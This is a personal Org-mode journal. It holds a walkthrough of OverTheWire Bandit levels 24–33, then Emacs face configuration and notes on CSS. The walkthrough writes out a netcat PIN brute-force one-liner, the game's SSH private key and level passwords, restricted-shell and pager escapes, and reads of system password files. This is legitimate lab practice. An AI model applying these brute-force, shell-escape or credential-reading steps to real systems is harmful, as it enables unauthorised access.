A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
#+end_quote

I try first to connect with ~nc~ to port 30002.

#+begin_quote
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
#+end_quote

Ok, separate password and pincode by a space.

I go to the manpage for ideas on how to bruteforce it without creating new connections each time.

#+begin_example
nc localhost 30002 << EOF
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001
EOF
#+end_example

This works, but I would have to create a huge input string with all the possible combinations.
Can I do it programatically?
Back to the manpage.

Couldn't find any way to build the combinations programatically without having to create a file.

My first idea was to use ~yes~ to create copies of the password, then ~seq~ for the pin codes, then another command to concatenate them in columns, and pass it to ~nc~'s connection to port 30002.

I could not find a command to concatenate the columns on Info coreutils.

Then googling I stumbled upon ~COMMAND | while read LINE; do echo $LINE~.

It works like this: ~COMMAND | while PREDICATE; BODY;~.
The redirection with | gives COMMAND's output to ~while~.
~while~ consumes that output one line per iteration.
PREDICATE is evaluated once per iteration.
In this case, it is the result of ~read LINE~.
~read~ is programmed to assign the value of its input to the variable LINE.
~read~ makes that line accessible via $LINE.
Note that it could be any other name, instead of "LINE"---it is just a variable name.

I saw that I could use this to concatenate the password with the pin codes with:

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002
#+end_example

I ran it in the server.

#+begin_example
bandit24@bandit:~$ seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002

...

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

I was curious to know the correct pin code.
I redirected the output to a file, and counted the lines of that file, then tried guessing some pin codes in that neighborhood.
I could have done some math :P

#+begin_example
seq -w 0 9999 | while read i; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i; done | nc localhost 30002 > /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ wc -l /tmp/tmp.kPTagzvdT7
9166 /tmp/tmp.kPTagzvdT7

bandit24@bandit:~$ head /tmp/tmp.kPTagzvdT7
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
b

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9164
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9163
Wrong! Please enter the correct current password and pincode. Try again.
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 9162
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
#+end_example

The pincode is 9162.

iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
*** 25

#+begin_quote
Logging in to bandit26 from bandit25 should be fairly easy…
The shell for user bandit26 is not /bin/bash, but something else.
Find out what it is, how it works and how to break out of it.


Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd
#+end_quote

There's a private key in bandit25's home dir:

~id_rsa_overthewire.org-bandit26~ ≡

#+begin_src ssh-key :noweb no
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI
2ROJsBXaiM4Iyg9hUpjZIn8TW2UlH76pojFG6/KBd1NcnW3fu0ZUU790wAu7QbbU
i7pieeqCqSYcZsmkhnOvbdx54A6NNCR2btc+si6pDOe1jdsGdXISDRHFb9QxjZCj
6xzWMNvb5n1yUb9w9nfN1PZzATfUsOV+Fy8CbG0CgYEAifkTLwfhqZyLk2huTSWm
pzB0ltWfDpj22MNqVzR3h3d+sHLeJVjPzIe9396rF8KGdNsWsGlWpnJMZKDjgZsz
JQBmMc6UMYRARVP1dIKANN4eY0FSHfEebHcqXLho0mXOUTXe37DWfZza5V9Oify3
JquBd8uUptW1Ue41H4t/ErsCgYEArc5FYtF1QXIlfcDz3oUGz16itUZpgzlb71nd
1cbTm8EupCwWR5I1j+IEQU+JTUQyI1nwWcnKwZI+5kBbKNJUu/mLsRyY/UXYxEZh
ibrNklm94373kV1US/0DlZUDcQba7jz9Yp/C3dT/RlwoIw5mP3UxQCizFspNKOSe
euPeaxUCgYEAntklXwBbokgdDup/u/3ms5Lb/bm22zDOCg2HrlWQCqKEkWkAO6R5
/Wwyqhp/wTl8VXjxWo+W+DmewGdPHGQQ5fFdqgpuQpGUq24YZS8m66v5ANBwd76t
IZdtF5HXs2S5CADTwniUS5mX1HO9l5gUkk+h0cH5JnPtsMCnAUM+BRY=
-----END RSA PRIVATE KEY-----
#+end_src

#+begin_src shell :noweb no
chmod 600 ~/.ssh/id_rsa_overthewire.org-bandit26
#+end_src

After preparations above, used it to ~ssh~ as bandit26.

It connects, but closes right away:

#+begin_example
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to bandit.labs.overthewire.org closed.
#+end_example

I believe I must find out about what the shell for bandit26 is.

~.bash_logout~ has some "privacy-increasing" measures...

#+begin_example
# ~/.bash_logout: executed by bash(1) when login shell exits.

# when leaving the console clear the screen to increase privacy

if [ "$SHLVL" = 1 ]; then
    [ -x /usr/bin/clear_console ] && /usr/bin/clear_console -q
fi
#+end_example

#+begin_example
bandit25@bandit:/home/bandit26$ /usr/bin/clear_console 
clear_console: terminal is not a console
#+end_example

Meh.

I could find out bandit26's login shell by looking at the default place: ~/etc/passwd~.

#+begin_example
bandit25@bandit:~$ cat /etc/passwd|grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
#+end_example

The contents of ~/usr/bin/showtext~ are:

#+begin_example
bandit25@bandit:~$ cat /usr/bin/showtext 
----------------------------------------------------------------------
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
#+end_example

Se eu peço para o ssh executar um comando ao final, tipo

ssh {host port user id_rsa, etc} /bin/bash

ele fica travado.

Acho que é isso que o enunciado se refere quando diz

#+begin_quote
Find out what it is, how it works and how to break out of it.
#+end_quote

1. What it is
   1. ~/usr/bin/showtext~
2. How it works
   1. It opens a text file, shows its content on the screen, and quits.
      1. It uses ~exec~, and this means
         1. This prevents access to the shell


O ~exec~ roda o comando por cima do /usr/bin/showtext.

O exec é um shell buit-in:

#+begin_example
(base) rafa@bach:~$ type -a exec
exec is a shell builtin
#+end_example

#+begin_example
(base) rafa@bach:~$ help exec
exec: exec [-cl] [-a name] [command [argument ...]] [redirection ...]
    Replace the shell with the given command.
    
    Execute COMMAND, replacing this shell with the specified program.
    ARGUMENTS become the arguments to COMMAND.  If COMMAND is not specified,
    any redirections take effect in the current shell.
    
    Options:
      -a name   pass NAME as the zeroth argument to COMMAND
      -c        execute COMMAND with an empty environment
      -l        place a dash in the zeroth argument to COMMAND
    
    If the command cannot be executed, a non-interactive shell exits, unless
    the shell option `execfail' is set.
    
    Exit Status:
    Returns success unless COMMAND is not found or a redirection error occurs.
(base) rafa@bach:~$ 
#+end_example

According to [[https://serverfault.com/a/823466][this answer on Server Fault]], all commands executed via ssh are actually executed by the login shell.
This would mean

ssh {connection stuff} ls

ssh {...} /usr/bin/showtext ls.

But /usr/bin/showtext does not deal with arguments in any way.
So I don't see how this could help me.


more accepts commands like vi

in vi, they come via stderr


this works for vi:

https://vi.stackexchange.com/a/44475
vim - <<< "Hello, World!" 2<<< ":w! file.txt | :q"

É pra mandar um Ctrl+Z enquanto o ~more~ ainda tá rodando.
Isso vai me dar o shell que o invocou.
Short-lived program
Difícil na mão.
Usar um programa: expect.
Precisa de um script.

[[file:landit26.expect][bandit26.expect]] ≡

#+begin_src expect :noweb no
#!/usr/bin/expect -f
# bandit26-hit.exp — spawn ssh and immediately send a control byte, then hand control to you.

# === Configuration: change these to match your local SSH command ===
set timeout 10
set ssh_cmd {ssh -t -p 2220 -l bandit26 -i ~/.ssh/id_rsa_overthewire.org-bandit26 bandit.labs.overthewire.org}

# === Control character to send ===
# \032 is Ctrl+Z (ASCII SUB). Change to \003 for Ctrl+C, etc.
set ctrl_byte "\003"

# Spawn the SSH client
spawn -noecho {*}$ssh_cmd

# Option 1: wait for any data from the remote side, then immediately send the control char
# (this triggers the key while the pager is running)
expect {
    -re {.+} { send -- $ctrl_byte }
    timeout { send -- $ctrl_byte }   ;# fallback: send anyway if nothing seen within timeout
}

# Hand control to your terminal interactively
interact
#+end_src

#+begin_src shell :noweb no
chmod +x bandit26.expect
#+end_src

#+RESULTS:



janela pequena força modo interativo do more

v abre o vim

rodar ocmandos no vim

rodei um open do pass if

:e /etc/band.../band..26

s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

Essa senha deixa logar, mas cai no mesmo problema.

:set shell=/bin/bash

:shell

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
*** 27 -> 28

git repo at

ssh://bandit27-git@localhost/home/bandit27-git/repo
via the port 2220

i have to clone this repo

**** clone logged in the server

from the manpage, the format for ssh urls is

#+begin_quote
ssh://[user@]host.xz[:port]/~[user]/path/to/repo.git/
#+end_quote

translating to the address:

git clone ssh://bandit27-git@localhost:2220/home/bandit27-git/repo

didn't allow the clone (no write permission)

going local

**** clone from my local machine

git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo

password was inside README

Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN
*** 28 -> 29

ssh://bandit28-git@localhost/home/bandit28-git/repo via the port 2220.

git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo

tava no git log

sshpass -p 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7 ssh bandit.labs.overthewire.org -p 2220 -l bandit29
*** 29 -> 30
:PROPERTIES:
:header-args: :session *29*
:END:

**** Instructions

#+begin_quote
Level Goal

There is a git repository at ssh://bandit29-git@localhost/home/bandit29-git/repo via the port 2220.
The password for the user bandit29-git is the same as for the user bandit29.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

**** Clone the repository

Basic clone structure.

#+begin_src shell :noweb no
export SERVER=bandit29-git@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/bandit29-git/repo
export REMOTE_REPO=ssh://$SERVER:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/bandit29-git-repo
export REPO=$LOCAL_FOLDER
#+end_src

Essential in this problem: mirror the remote repository.
This way we get all the branches.
The password turned out to be on a branch ~dev~, that was not fetched with the normal ~git clone~ command.

#+begin_src shell :noweb no
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit29-git@bandit.labs.overthewire.org:2220/home/bandit29-git/repo /home/rafa/hack/overthewire.org/bandit29-git-repo

qp30ex3VLz5MDG1n91YowTv4Q8l7CDZL
*** Bandit Level 30 → Level 31

#+begin_quote
Level Goal

There is a git repository at ssh://bandit30-git@localhost/home/bandit30-git/repo via the port 2220.
The password for the user bandit30-git is the same as for the user bandit30.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell :noweb no
export BANDIT=bandit30-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit30-git@bandit.labs.overthewire.org:2220/home/bandit30-git/repo /home/rafa/hack/overthewire.org/bandit30-git-repo

There was a ~secret~ tag.

Fetched it.
Couldn't ~checkout~ to it, nor hard reset to it.
Then I looked inside it.

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit30-git-repo$ git cat-file -p secret
fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
#+end_example

fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
*** Bandit Level 31 → Level 32

#+begin_quote
Level Goal

There is a git repository at ssh://bandit31-git@localhost/home/bandit31-git/repo via the port 2220.
The password for the user bandit31-git is the same as for the user bandit31.

Clone the repository and find the password for the next level.
Commands you may need to solve this level

git
#+end_quote

#+begin_src shell :noweb no
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo-mirror
export REPO=$LOCAL_FOLDER
export GIT_FLAGS="--mirror"
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone --mirror ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo-mirror

#+begin_src shell :noweb no
PASSWORD=fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit31
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy ssh bandit.labs.overthewire.org -p 2220 -l bandit31

**** Investigating bandit31's home folder

#+begin_example
bandit31@bandit:~$ ll
total 24
drwxr-xr-x   2 root root 4096 Aug 15 13:16 ./
drwxr-xr-x 150 root root 4096 Aug 15 13:18 ../
-rw-r--r--   1 root root  220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root 3851 Aug 15 13:09 .bashrc
-rwxr-xr-x   1 root root   59 Aug 15 13:16 .gitconfig*
-rw-r--r--   1 root root  807 Mar 31  2024 .profile
bandit31@bandit:~$ cat .gitconfig 
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_example

#+begin_src shell :noweb no
git ls-remote
#+end_src

#+begin_example
(base) rafa@bach:~/hack/overthewire.org/bandit31-git-repo-mirror$ git ls-remote --heads --tags --refs --symref
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
From ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo
508f78be4568c9cf050249a441800ad36c1fe5bd        refs/heads/master
#+end_example

**** I have to push a file to the remote repository

#+begin_example
2 files changed, 8 insertions(+)
.gitignore | 1 +
README.md  | 7 +++++++

new file   .gitignore
@@ -0,0 +1 @@
+*.txt
new file   README.md
@@ -0,0 +1,7 @@
+This time your task is to push a file to the remote repository.
+
+Details:
+    File name: key.txt
+    Content: 'May I come in?'
+    Branch: master
+
#+end_example

I want to
1. Modify .gitignore and remove ~*.txt~


Clone without mirror.

#+begin_src shell :noweb no
export BANDIT=bandit31-git
export URL=${BANDIT}@bandit.labs.overthewire.org
export PORT=2220
export REMOTE_FOLDER=/home/${BANDIT}/repo
export REMOTE_REPO=ssh://$URL:$PORT$REMOTE_FOLDER
export LOCAL_FOLDER=$HOME/hack/overthewire.org/${BANDIT}-repo
export REPO=$LOCAL_FOLDER
echo git clone $GIT_FLAGS $REMOTE_REPO $REPO
#+end_src

#+RESULTS:
: git clone ssh://bandit31-git@bandit.labs.overthewire.org:2220/home/bandit31-git/repo /home/rafa/hack/overthewire.org/bandit31-git-repo

I need to add the user info I found on 31's home folder .gitconfig:
Add it to the repo's .git/config file.

#+begin_src gitconfig /home/rafa/hack/overthewire.org/bandit31-git-repo/.git/.gitconfig :noweb no
[user]
        email = bandit31@overthewire.org
        name = bandit31
#+end_src

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (3/3), 301 bytes | 301.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

>>>> ! [remote rejected] master -> master (pre-receive hook declined)

What hook is that?
Is it in the folder ~hooks~?
Only sample hooks there.

Is there something on the server?
1. I looked


fb5S2xb7bRyFmAvQYQGEqsbhVyJqhnDy

#+begin_example
  1 git … push -v origin master\:refs/heads/master
Pushing to ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
                         _                     _ _ _   
                        | |__   __ _ _ __   __| (_) |_ 
                        | '_ \ / _` | '_ \ / _` | | __|
                        | |_) | (_| | | | | (_| | | |_ 
                        |_.__/ \__,_|_| |_|\__,_|_|\__|
                                                       

                      This is an OverTheWire game server. 
            More information on http://www.overthewire.org/wargames

backend: gibson-1
bandit31-git@bandit.labs.overthewire.org's password: 
Writing objects: 100% (4/4), 361 bytes | 361.00 KiB/s, done.
Total 4 (delta 0), reused 0 (delta 0), pack-reused 0
remote: ### Attempting to validate files... ####        
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
remote: Well done! Here is the password for the next level:        
remote: 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K         
remote: 
remote: .oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.oOo.        
remote: 
To ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo
 ! [remote rejected] master -> master (pre-receive hook declined)
error: failed to push some refs to 'ssh://bandit.labs.overthewire.org:2220/home/bandit31-git/repo'
#+end_example

3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
*** Bandit Level 32 → Level 33

#+begin_quote
Level Goal

After all this git stuff, it’s time for another escape. Good luck!
Commands you may need to solve this level

sh, man
#+end_quote

#+begin_src shell :noweb no
PASSWORD=3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
URL=bandit.labs.overthewire.org
PORT=2220
BANDIT=bandit32
echo sshpass -p ${PASSWORD} ssh $URL -p $PORT -l $BANDIT
#+end_src

#+RESULTS:
: sshpass -p 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K ssh bandit.labs.overthewire.org -p 2220 -l bandit32

**** Control keys

| Key | Result                   |
|-----+--------------------------|
| C-D | quit                     |
| C-Z | no echo, but do not quit |
|     |                          |

#+begin_example

>> a
sh: 1: A: Permission denied
>> \
>> $
sh: 1: $: Permission denied
>> 
>> !
sh: 2: Syntax error: newline unexpected
>> !
sh: 2: Syntax error: newline unexpected
>> " 
sh: 2: Syntax error: Unterminated quoted string
>> "bash"
sh: 1: BASH: Permission denied

#+end_example

**** UPPERCASE SHELL: environment variables?

**** The uppershell executable has setgid for bandit33

#+begin_example
bandit31@bandit:/home/bandit32$ ll
total 36
drwxr-xr-x   2 root     root      4096 Aug 15 13:16 ./
drwxr-xr-x 150 root     root      4096 Aug 15 13:18 ../
-rw-r--r--   1 root     root       220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root     root      3851 Aug 15 13:09 .bashrc
-rw-r--r--   1 root     root       807 Mar 31  2024 .profile
-rwsr-x---   1 bandit33 bandit32 15140 Aug 15 13:16 uppershell*
               ^^^^^^^^
#+end_example

**** manpage sh: ${0} gives name of shell

It was executing the expansions.
It executed that, giving me an instance of ~sh~.

#+begin_example
WELCOME TO THE UPPERCASE SHELL
>> ${$}
sh: 1: 625083: Permission denied
>> ${0}
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
#+end_example

tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
*** Bandit Level 33 → Level 34

#+begin_quote
At this moment, level 34 does not exist yet.
#+end_quote

* [2025-10-12 Sun]

Today I used a good part of the sunny Sunday to do something I have been wanting to do for years: reset Org Mode font colors; it is /too/ colorful!
I get distracted just by looking at the screen, and trying to figure out the rules for the colors, and the semantics, etc; not very focus-inducing!

This is the result.

** Introduction

This has some face-related functions and settings, including the configuration of the default face for Emacs.

[[file:~/elisp/faces.el][~/elisp/faces.el]] ≡

#+begin_src elisp :noweb no
<<define the functions>>
<<reset the faces>>
(face-set-after-frame-default (selected-frame))
#+end_src

** Faces

*** ~default~

Reset face: all settings to default.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces :noweb no
(face-reset 'default)
#+end_src

*** Org

Go nuclear: Reset all Org faces.

~<<reset the faces>> +≡~

#+begin_src elisp :noweb-ref reset the faces :noweb no
<<push all known Org faces into a list>>
<<reset all Org faces from that list>>
#+end_src

~<<push all known Org faces into a list>> +≡~

#+begin_src elisp :noweb-ref push all known Org faces into a list :noweb no
;; Collect all org faces
(setq org-faces (seq-filter
                 (lambda (face)
                   (string-prefix-p "org-" (symbol-name face)))
                 (face-list)))
#+end_src

~<<reset all Org faces from that list>> +≡~

#+begin_src elisp :noweb-ref reset all Org faces from that list :noweb no
(face-reset-list org-faces)
#+end_src

** Functions

~<<define the functions>> +≡~

#+begin_src elisp :noweb-ref define the functions :noweb no
<<define a function to reset a face>>
<<define a function to reset a list of faces>>
#+end_src

*** ~face-reset~

~<<define a function to reset a face>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a face :noweb no
(defun face-reset (face)
  "Sets FACE attributes to absolute and average values."
  (interactive)
  (set-face-attribute
   face
   <<FRAME>>
   <<&rest ARGS>>))
#+end_src

**** Frame

We set it to ~t~, this way new frames honor it.

#+begin_quote
If FRAME is a frame, set the FACE’s attributes only for that frame.  If
FRAME is nil, set attribute values for all existing frames, as well as
the default for new frames.  If FRAME is t, change the default values
of attributes for new frames.
#+end_quote

~<<FRAME>> +≡~

#+begin_src elisp :noweb-ref FRAME :noweb no
t
#+end_src

**** ~family~ and ~foundry~

~<<&rest ARGS>> +≡~

#+begin_src elisp  :noweb-ref &rest ARGS :noweb no
:family "Lat15Fixed16"
:foundry "PfEd"
#+end_src

**** ~width~ and ~height~

#+begin_quote
Note that for the ‘default’ face, you must specify an absolute height (since there is nothing for it to be relative to).
#+end_quote

This height was being used before I started working.
I am not sure what it means, or how it is calculated.

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:width 'normal
:height 128
#+end_src

**** ~weight~ and ~slant~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:weight 'medium
:slant 'normal
#+end_src

**** ~foreground~ and ~background~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:foreground "dark gray"
:background "black"
#+end_src

**** Decorations

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:underline nil
:overline nil
:strike-through nil
:box nil
#+end_src

**** ~inverse-video~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:inverse-video nil
#+end_src

**** ~stipple~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:stipple nil
#+end_src

**** ~extend~

~<<&rest ARGS>> +≡~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:extend nil
#+end_src

**** ~font~

Don't see the need for this.

~<<&rest ARGS>> +≡~

**** ~inherit~

#+begin_src elisp :noweb-ref &rest ARGS :noweb no
:inherit nil
#+end_src

*** ~face-reset-list~

~<<define a function to reset a list of faces>> +≡~

#+begin_src elisp :noweb-ref define a function to reset a list of faces :noweb no
(defun face-reset-list (face-list)
  "Apply function `face-reset' to a list of faces."
  (interactive)
  ;; Lists of faces usually are automatically obtained by taking all symbols
  ;; from a context with "face" in their names.  But surprisingly this is not an
  ;; infallible approach.  Then we ignore any errors here.  This is not bad,
  ;; because we only ignore---and do not-reset---the ones that are _not_ faces.
  (ignore-errors
    (dolist (face face-list)
      (face-reset face))))
#+end_src


** Seinfeld Checkmark

[[file:images/2025-10-12_seinfeld.jpeg]]

* [2025-10-11 Sat]

Productive day.
But only because learned about my limitations while struggling to get results.
Learned a lot!

** Seinfeld Checkmark

[[file:images/2025-10-11_seinfeld.jpeg]]

* [2025-10-10 Fri]

Well, I'm pursuing some CTF goals.
Totally derailed.
But, I am investigating my core reasons to program.
The burn out happened because of lack of this.

Nice.

** Seinfeld Checkmark

[[file:images/2025-10-10_seinfeld.jpeg]]

* [2025-10-09 Thu]

** Back to Odin

Now that I had a taste of the "ground truth" (official specs), I feel more confident about navigating the uncertainties and vagueness of the world.
Also, Wikipedia has a lot of good resources on alternatives to The Box Model...
I probably need to improve my Google-fu.

I feel that I tend to underestimate CSS.
I've been thinking about this.
Webdev is HTML, CSS, and JS.
Instinctively, I think: JS is harder than HTML, that is harder than CSS.
But this is not the case---at least for me.
CSS has lots of intellectual demands:
- The official docs are declarative: they don't teach how to implement, but what they want as a result (from the browser implementers).
  This removes a lot of pressure that is usually present when defining a language (like JS and even HTML).
  The documentation is more vague, there are lots of exceptions.
  And what trips me up the most is the terminology.
  It all started in CSS1 with
  - For the background: ~background-color~
  - For the foreground: ~color~ (!)


This list goes on and on.
I belive it stems from the fact that the people involved with the development of CSS have a different mindset than what I'm used to when dealing with tech specs.
And this is probably good, because they are also developing an aspect that is normally difficult for programmers: make things look good.
And I've seen what CSS can do, and it's great.
Also, I've seen the latest developments in layout---this is what made me go to the specs, I couldn't believe The Box Model could be a thing they would settle on---and thank God they didn't!
During this journey I learned a lot about realistic expectations on webdev and stuff---including my own capabilities and limits.
The most important thing was to see that when I go slowly on a CSS exercise things tend to flow better, and quicker.
My initial impulse is to underestimate and get frustrated with the delay, lack of info... when I could just stop, take a deep breath, and dedicate some time to think.

Another curious development: my inner artist is coming out, sniffing the territory, and I catch myself sometimes thinking about ideas for websites.
This is cool!

** Seinfeld Checkmark

[[file:images/2025-10-09_seinfeld.jpeg]]

* [2025-10-08 Wed]

** CSS1 Standard

See how things evolved is good when there is so much confusion in the terminology.

The margin collapse from the Box Model makes sense for typography, not graphics layout.
It was introduced at a time where you /maybe/ would add a picture to a page; a time where the page was thought as a /book/ or /newspaper/ page (but without ads, comic strips or other elements demanding a more sophisticated and precise layout engine).

It was also the /first/ major attempt at adding styles to a page.
/Style/ at that time was mainly choosing the text font, and color; background color or image.
And back then, many users had only access to text terminals, so the important part of the page for them was mainly the text, and its structure.

